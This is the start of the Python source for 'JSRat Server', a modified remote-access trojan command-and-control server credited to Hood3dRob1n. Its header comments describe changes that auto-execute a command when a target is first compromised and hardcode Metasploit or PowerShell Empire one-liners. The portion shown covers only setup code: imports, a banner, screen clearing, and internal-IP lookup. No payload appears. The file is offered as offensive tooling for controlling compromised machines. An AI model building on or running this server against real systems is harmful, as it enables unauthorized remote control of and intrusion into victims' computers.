 #!/usr/bin/env python
#
# JSRat Server
# By: Hood3dRob1n
#
# [jsrat-py](https://github.com/Hood3dRob1n/JSRat-Py)
# CUSTOM CHANGES IN HERE are:
# * Added a -c option that automatically executes a command on initial target compromise
# * Removed the dependency to read the commands to be executed from the standard input
# * Hardcoded the Metasploit or PowerShell Empire one liners to be executed (you will have to hardcode your own one liners.
import optparse, os, socket, SocketServer, sys , re
from BaseHTTPServer import BaseHTTPRequestHandler, HTTPServer
from classes.colors import *
import requests # Used for --find-ip option, otherwise not needed
global command
command = 'ver'
try:
  import readline
except:
  error("No Python Readline")
  pad(); bad("No history support as a result, sorry...")


def banner():
  cls()
  print red("\nJSRat Server")
  print blue("By") + white(": Hood3dRob1n")


def cls():
  if os.name == 'nt' or sys.platform.startswith('win'):
    os.system('cls')
  else:
    os.system('clear')


def internal_ip():
  'Check Internal IP' # Google IP address used...
  try:
    iip = [(s.connect(('8.8.8.8', 80)), s.getsockname()[0], s.close()) for s in [socket.socket(socket.AF_INET, socket.SOCK_DGRAM)]][0][1]
  except:
    error("Problem resolving internal IP!")
    return "Problem resolving internal IP!"
  return iip
